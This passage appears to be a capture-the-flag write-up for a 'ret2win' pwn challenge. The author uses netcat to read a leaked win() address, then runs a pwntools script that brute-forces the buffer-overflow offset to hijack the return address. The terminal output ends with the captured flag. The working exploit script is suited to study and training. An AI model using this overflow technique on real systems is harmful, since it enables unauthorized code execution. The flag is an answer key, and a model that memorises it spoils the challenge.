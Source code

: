 Let's run that `netcat` link to see what's going on:

{% ccb terminal:true html:true wrapped:true %}
<span class="meta prompt_">$ </span>nc 0.cloud.chals.io 30096  
The Dark Side Of The Force, Are They. Easily They Flow, Quick To Join You In A Fight. The Dark Side resides at: 0x55a6b42f020c  
Jedi Mind tricks dont work on me >>>
{% endccb %}

We're given an address of the `win()` function... and that's it. If this is a `ret2win` challenge, how are we meant to find the offset of the `$rip` register and overflow it with our code? Of course... we need to brute force it.

In the code snippet below, I got the address provided in the prompt by reading the line and taking its substring (ASLR is enabled, so it's different each time). Then, I slowly increase the buffer of the payload with a loop until I find the right offset of the `$rip`:

{% ccb lang:py gutter1:1-12 caption:'warmup-to-the-dark-side.py' url:'gist.github.com/jktrn/dd861b378b859a0588b48c71ad9fbf45' url_text:'github gist link' %}
from pwn import *

for i in range(32,128):
        p = remote("0.cloud.chals.io", 30096)
        address = p.readlineS()[112:126]
        log.info("Trying offset " + str(i) + " for address " + address)
        p.sendline(b'A'*i + p64(int(address, base=16)))
        output = p.recvallS()
        if "shctf" in output:
                log.success(output)
                break
        p.close()
{% endccb %}

Let's run this script on the server to see if we can get the flag:
{% ccb terminal:true html:true highlight:18 %}
...
[<span style="color:#277FFF"><b>*</b></span>] Trying offset 37 for address 0x55f788f1120c
[<span style="color:#47D4B9"><b>+</b></span>] Receiving all data: Done (38B)
[<span style="color:#277FFF"><b>*</b></span>] Closed connection to 0.cloud.chals.io port 30096
[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to 0.cloud.chals.io on port 30096: Done
[<span style="color:#277FFF"><b>*</b></span>] Trying offset 38 for address 0x5631d523620c
[<span style="color:#47D4B9"><b>+</b></span>] Receiving all data: Done (38B)
[<span style="color:#277FFF"><b>*</b></span>] Closed connection to 0.cloud.chals.io port 30096
[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to 0.cloud.chals.io on port 30096: Done
[<span style="color:#277FFF"><b>*</b></span>] Trying offset 39 for address 0x55980d2d520c
[<span style="color:#47D4B9"><b>+</b></span>] Receiving all data: Done (38B)
[<span style="color:#277FFF"><b>*</b></span>] Closed connection to 0.cloud.chals.io port 30096
[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to 0.cloud.chals.io on port 30096: Done
[<span style="color:#277FFF"><b>*</b></span>] Trying offset 40 for address 0x55f0008b520c
[<span style="color:#47D4B9"><b>+</b></span>] Receiving all data: Done (95B)
[<span style="color:#277FFF"><b>*</b></span>] Closed connection to 0.cloud.chals.io port 30096
[<span style="color:#47D4B9"><b>+</b></span>] Jedi Mind tricks dont work on me &gt;&gt;&gt;
    shctf&#123;I_will_remov3_th3s3_restraints_and_leave_the_c3ll&#125;</span>
{% endccb %}

---